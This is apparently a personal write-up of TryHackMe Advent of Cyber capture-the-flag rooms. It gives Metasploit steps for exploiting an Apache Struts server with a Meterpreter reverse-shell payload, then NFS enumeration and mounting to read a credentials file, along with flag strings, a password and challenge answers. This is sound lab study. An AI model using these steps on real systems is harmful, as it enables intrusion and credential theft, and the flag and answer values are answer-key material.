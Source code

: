         ```bash
        db_nmap -sV <ip-address>
        ```

    - find the port address of the apache server
    - set the RHOST to target machine and RPORT to port number of apche
    - For TARGETURI go to browser and type the socket address
    - We get /showcase.actions as the TARGETURI
    - set LHOST to tun0
    - set PAYLOAD to linux metremeter

    ```bash
    #run exploit
    run (or exploit)
    #to find the seach type find
    find / | grep flag1 -> no find funciton
    #to implement find command
    shell #runs the shell
    #find the flag1.txt
    find / | grep -i flag1
    # -i = do not care about the case sensitive
    ```

    Ans: THM{3ad96bb13ec963a5ca4cb99302b37e12}

2. Now you've compromised the web server, get onto the main system. What is Santa's SSH password?

    ```bash
    #go to home 
    cd /home
    #go to santa directory and print the file
    ```

    Ans: rudolphrednosedreindeer

3. Who is on line 148 of the naughty list?

    To check the 148th line

    ```bash
    sed  -n 148p naughty_list
    ```

    Ans: Melisa Vanhoose

4. Who is on line 52 of the nice list?

    Ans: Lindsey Gaffney

## Day 11: Elf Application

1. What is the password inside the creds.txt file?

    ```bash
    #scan the network wtith nmap
    nmap -sV -A <ip-address>
    #ftp, nfs and SQL server running
    sudo showmount -e <ip-address> #shows the path that can be mounted
    sudo mount IP:/opt/files /home/kali/Downloads
    cat creds.txt
    Ans: securepassword123
